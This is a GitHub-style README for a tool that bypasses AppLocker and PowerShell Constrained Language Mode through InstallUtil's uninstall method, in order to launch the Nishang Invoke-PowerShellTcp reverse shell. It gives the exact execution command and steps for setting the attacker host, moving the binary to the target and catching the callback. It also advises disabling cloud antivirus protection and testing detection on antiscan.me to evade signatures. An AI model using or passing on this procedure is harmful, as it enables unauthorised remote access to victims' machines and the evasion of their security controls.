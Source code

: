 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run Nishang Invoke-PowerShellTcp.ps1

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
			
Steps

  1)Build the project after changing the ip (lhost , ip youre serving the shellcode from) and script name ("damn" , change the name to name of your Invoke-PowerShellTcp.ps1 instance )
  2)Transfer the build exe to the rhost 
  3)run the listener on lhost to the configured port on Invoke-PowerShellTcp.ps1 instance
  4)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
  5)Check on the lhost http server for a call back and your listener		
						
```

## Compile Instructions

This Project has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures
* You could run any code to bypass Applocker and Powershell constrained language mode via "public class SharpUp : System.Configuration.Install.Installer" method change the "damn" script to the the powershell .ps1 script , you wanna run

## Shout Out

[nikhil_mitt](https://twitter.com/nikhil_mitt)

* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1




